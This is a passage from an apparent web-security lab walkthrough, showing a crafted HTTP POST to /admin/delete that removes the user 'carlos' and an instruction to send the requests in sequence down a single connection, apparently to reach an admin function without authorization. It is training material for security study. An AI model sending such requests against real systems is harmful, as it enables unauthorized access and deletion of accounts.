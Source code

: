 10. On the second tab in your group, use these details to replicate the request that would be issued when submitting the form. 
	1. The result should look something like this:
```html
POST /admin/delete HTTP/1.1
Host: 192.168.0.1
Cookie: _lab=YOUR-LAB-COOKIE; session=YOUR-SESSION-COOKIE
Content-Type: x-www-form-urlencoded
Content-Length: CORRECT

csrf=YOUR-CSRF-TOKEN&username=carlos
```

1. Send the requests in sequence down a single connection to solve the lab.

